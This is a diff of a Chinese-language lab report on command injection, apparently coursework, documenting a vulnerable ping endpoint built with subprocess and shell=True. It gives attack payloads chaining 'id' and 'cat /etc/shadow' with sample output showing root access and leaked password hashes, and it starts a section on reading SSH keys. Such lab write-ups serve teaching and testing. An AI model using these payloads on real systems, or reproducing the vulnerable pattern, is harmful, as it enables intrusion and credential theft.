

Before and after one commit to Dazzling1-LJY/LL, a Markdown page: Class01/命令注入漏洞检测报告.md, the part around one of its changes. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Class01/命令注入漏洞检测报告.md
+++ b/Class01/命令注入漏洞检测报告.md
@@ -223,3 +281,13 @@ uid=0(root) gid=0(root) groups=0(root)    ← 命令注入成功！
+```python
+cmd = f"ping -c 3 {ip}"
+output = subprocess.check_output(cmd, shell=True, timeout=30, stderr=subprocess.STDOUT)
+```
+
+#### 漏洞详情
+
+逻辑与 `&&` 的语义是：**仅当前一条命令成功（退出码 0）后，才执行后一条命令**。`ip` 中包含 `&&` 时，先执行 ping，成功后再执行注入命令。ping 和注入命令的输出都会显示。
+
+#### 攻击演示
 
 | 属性 | 内容 |
 |:-----|:------|
@@ -227,14 +295,66 @@ uid=0(root) gid=0(root) groups=0(root)    ← 命令注入成功！
 | **实际执行命令** | `ping -c 3 127.0.0.1 && id` |
 | **攻击结果** | ✅ 成功执行（ping 成功后执行 id） |
 
+**攻击请求**：
+```
+POST /ping HTTP/1.1
+Content-Type: application/x-www-form-urlencoded
+
+ip=127.0.0.1+%26%26+id
+```
+
+**生成的 shell 命令**：
+```bash
+ping -c 3 127.0.0.1 && id
+```
+
+**攻击结果**（成功 ✅）：
+```
+PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
+64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.028ms
+...
+--- 127.0.0.1 ping statistics ---
+3 packets transmitted, 3 received, 0% packet loss
+uid=0(root) gid=0(root) groups=0(root)
+```
+
+**截图区域**：
+
+> （在此处输入逻辑与注入的页面截图——ping 结果和 uid=0 同时显示）
+
 ---
 
-##### 攻击向量 4：读取系统密码文件
+### CI-004：命令注入（综合利用）
 
 | 属性 | 内容 |
 |:-----|:------|
-| **攻击 Payload** | `127.0.0.1; cat /etc/shadow | head -3` |
-| **实际执行命令** | `ping -c 3 127.0.0.1; cat /etc/shadow | head -3` |
+| **漏洞编号** | CI-004 |
+| **漏洞名称** | 命令注入 — 综合利用（文件读写/权限提升/持久控制） |
+| **漏洞类型** | OS 命令注入综合利用 |
+| **CWE 编号** | CWE-78：Improper Neutralization of Special Elements used in an OS Command |
+| **OWASP 分类** | A03:2021 – Injection |
+| **风险等级** | 🔴 **严重** |
+| **漏洞位置** | `app.py` 第 ×× 行 `f"ping -c 3 {ip}"` + `shell=True` |
+
+#### 漏洞代码
+
+```python
+cmd = f"ping -c 3 {ip}"
+output = subprocess.check_output(cmd, shell=True, timeout=30, stderr=subprocess.STDOUT)
+```
+
+#### 漏洞详情
+
+CI-004 涵盖通过命令注入进行的**高级综合利用**——读取敏感文件、写入恶意文件、获取持久化控制。均利用同一漏洞点。
+
+#### 攻击演示
+
+##### 攻击 1：读取系统密码文件（/etc/shadow）
+
+| 属性 | 内容 |
+|:-----|:------|
+| **攻击 Payload** | `127.0.0.1; cat /etc/shadow \| head -3` |
+| **实际执行命令** | `ping -c 3 127.0.0.1; cat /etc/shadow \| head -3` |
 | **攻击结果** | ✅ **泄露 root 密码哈希** |
 
 ```
@@ -245,5 +365,5 @@ root:$y$j9T$yRwJS6FfW9JDhTbde0lGR/$FLnSeCbgO/kBBHR5shv5...:19859:0:99999:7:::
 
 > （在此处插入读取 /etc/shadow 的页面截图——显示密码哈希）
 
----
+##### 攻击 2：读取 SSH 私钥
 
````
Also changed, not shown: other parts of Class01/命令注入漏洞检测报告.md (+95 -16 lines).
